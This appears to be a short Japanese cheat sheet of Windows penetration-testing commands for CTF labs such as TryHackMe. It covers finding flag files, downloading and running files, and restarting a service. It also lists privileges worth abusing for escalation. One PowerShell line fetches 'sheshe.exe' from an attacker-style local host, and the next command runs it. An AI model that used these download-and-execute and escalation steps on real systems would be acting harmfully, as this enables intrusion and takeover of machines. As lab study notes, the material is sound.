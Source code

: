 # Windows

### fileの発見
`dir flag* /s /p`

### スクリプト実行
`.\filename`

### fileをDL
https://binary-pulsar.hatenablog.jp/entry/2018/11/28/090000

```
bitsadmin /transfer download https://www.google.co.jp/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png %CD%\logo.png
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.27.249:8000/sheshe.exe','sheshe.exe')"
```

### powershellでプロセス実行
`powershell "Start-Process "sheshe.exe""`

### serviceのリスタート
```
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

### 現在のユーザーの権限一覧
`whoami /priv`
特権に関しては[こちら](https://www.exploit-db.com/papers/42556)参照
特権使ったTryHackMeは[これ](https://qiita.com/sanpo_shiho/items/3f2c4595f20cd4133ab8)

#### 怪しい特権
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege
